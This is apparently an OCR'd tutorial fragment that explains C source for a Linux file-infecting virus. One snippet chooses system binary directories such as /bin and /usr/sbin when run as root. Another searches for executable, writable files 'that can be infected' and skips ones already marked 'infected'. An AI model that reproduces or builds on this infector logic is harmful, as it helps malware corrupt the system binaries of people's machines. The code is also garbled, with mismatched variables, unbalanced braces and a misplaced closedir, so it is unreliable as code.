```c
if (uid == 0) {
        // Running as root
        scanDirectory("/bin", 1);
        scanDirectory("/sbin", 1);
        scanDirectory("/usr/bin", 1);
        scanDirectory("/usr/sbin", 1);
    } else {
        // Running as a simple user
        scanDirectory("/tmp/test", 0);
        scanDirectory("/tmp/test2", 0);
    }
```

-   If running as root, the program scans the directories "/bin", "/sbin", "/usr/bin", and "/usr/sbin" by passing the flag 1 to the ``scanDirectory`` function.
-   If running as a simple user, the program scans the directories "/tmp/test" and "/tmp/test2" by passing the flag 0 to the ``scanDirectory`` function.


```c
scanDirectory = opendir ("./"); 
if (dir != NULL) {

// Iterate over all files in the current directory
while ((ent = readdir (dir)) != NULL) {

// Select regular files only, not DT_DIR (directories) nor DT_LNK (links)
if (ent->d_type == DT_REG)
{

// Select executable and writable files that can be infected
if (access(ent->d_name, X_OK) == 0 && access(ent->d_name, W_OK) == 0)
{

// Ignore the executable that is running the program
if (strstr(exclude, ent->d_name) != NULL)
{
original_executable = ent->d_name;
}

// Ignore hidden executables with infected label
else if (strstr(ent->d_name, "infected") != NULL)
{
first_run = 0; 
} 
	 closedir (dir);  
} else {

// Error if directory fails to open
fprintf (stderr, "Cannot open %s (%s)\n", "./", strerror (errno));
exit (EXIT_FAILURE);
}
```
